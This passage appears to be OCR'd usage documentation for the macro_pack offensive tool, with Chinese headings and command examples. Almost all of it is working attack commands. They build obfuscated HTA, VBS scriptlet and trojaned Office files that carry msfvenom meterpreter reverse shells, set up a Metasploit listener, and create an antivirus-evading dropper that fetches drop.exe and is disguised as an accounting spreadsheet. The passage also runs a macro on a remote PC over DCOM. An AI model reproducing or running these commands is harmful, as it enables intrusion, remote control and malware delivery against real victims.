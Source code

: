 ```
set EnableStageEncoding true
# 3 run VBS file with wscript (run 32bit wscript because meterpreter payload is 32bit)
%windir%\SysWoW64\wscript meter.vbs
```

- 生成混淆的HTA文件，该文件执行“systeminfo”并将结果返回到另一个在192.168.0.5上监听的macro_pack
```
# 1 Generate HTA file with CMD template
echo http://192.168.0.5:1234/a "systeminfo" | macro_pack.exe -t CMD -o -G info.hta
# 2 On 192.168.0.5 open macro_pack as http listener
macro_pack.exe -l 1234
# 3 run hta file with mshta
mshta.exe full/path/to/info.hta
```
```
echo "file://C:\Users\username\Desktop\hello.hta" | macro_pack.exe -G yop.url
```
```
echo '"c:\Windows\System32\cmd.exe /c calc.exe" "calc.exe"' | macro_pack.exe -G calc.lnk
```
```
# 1 Generate obfuscated VBS scriptlet based on meterpreter reverse HTTPS template
echo <ip> <port> | macro_pack.exe -t WEBMETER -o -G meter.sct
# 2 On attacker machinge Setup meterpreter listener
Open msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <attacker_ip> # NOTE this cannot be 0.0.0.0 for reverse https
set LPORT <port>
set AutoRunScript post/windows/manage/migrate
set EXITFUNC thread
set ExitOnSession false
set EnableUnicodeEncoding true
set EnableStageEncoding true
exploit -j
# 3 run scriptlet with regsvr32 
regsvr32 /u /n /s /i:meter.sct scrobj.dll
```

#### macro_pack pro
```
echo "http://10.5.5.12/drop.exe" "dropped.exe" | macro_pack.exe -o -t DROPPER2 --trojan --av-bypass --stealth  -G "E:\accounting\report.xls"   
```
- 生成一个包含VBA自编码x64 reverse meterpreter VBA
```
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --vbom-encode --keep-alive  -G  out.docm
```
- PowerPoint文件与木马以及reverse meterpreter
```
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --av-bypass --trojan -G  hotpics.pptm
```
- 使用DCOM在远程PC上执行宏
```
REM Step 1: Ensure you have enough rights
net use  \\192.168.0.8\c$ /user:domain\username password
REM Step 2: Generate document, for example here, meterpreter reverse TCP Excel file
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G meter.xlsm
REM Step 3: Copy the document  somewhere on remote share
copy meter.xlsm "\\192.168.0.8\c$\users\username\meter.xlsm"
REM Step 4: Execute!
macro_pack.exe --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"
REM Step 2 to 4 in one step:
```